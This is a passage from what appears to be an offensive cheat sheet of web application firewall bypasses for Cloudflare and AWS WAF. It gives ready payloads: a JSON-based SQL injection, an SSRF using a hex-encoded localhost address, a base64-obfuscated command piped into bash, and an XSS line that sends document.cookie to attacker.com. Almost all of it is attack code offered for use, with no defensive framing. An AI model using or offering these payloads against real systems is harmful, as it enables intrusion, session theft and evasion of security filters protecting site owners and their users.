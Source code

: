 >or using **JSON array injection:**  

```sql
' OR JSON_EXTRACT('[{"user":"admin"}]', '$[0].user')='admin'
```  

- Cloudflare does **not tokenize whitespace properly**.  
- JSON queries **bypass traditional SQL filters**.  

### **🔥 Cloudflare SSRF Bypass**  

>Cloudflare blocks:  

```bash
curl http://127.0.0.1:8080/
```  

>**Bypass using `0xHEX` Encoding:**  

```bash
curl http://0x7F000001:8080/  # 127.0.0.1 in hex
```  

- Cloudflare does **not always normalize hex IPs**.  
- `0x7F000001` translates to **127.0.0.1** at the system level.  

### **🔥 Cloudflare Command Injection Bypass**  

>Cloudflare WAF detects:  

```bash
ping -c 4 attacker.com
```  

>**Bypass using Alternative Encoding:**  

```bash
$(echo cGluZyAtYyA0IGF0dGFja2VyLmNvbQo= | base64 -d | bash)
```  

- Encodes the payload in **base64** to avoid pattern detection.  

----

## **2️⃣ AWS WAF Bypass**  

>AWS WAF is **rule-based with rate-limiting & regex filtering**.  
>**AWS fails at handling nested requests and JSON obfuscation**.  

### **🔥 AWS XSS Bypass**  

>AWS WAF blocks:  

```html
<script>alert(1)</script>
```  

>**Bypass using JavaScript Template Literals:**  

```js
fetch`//attacker.com/${document.cookie}`
```  
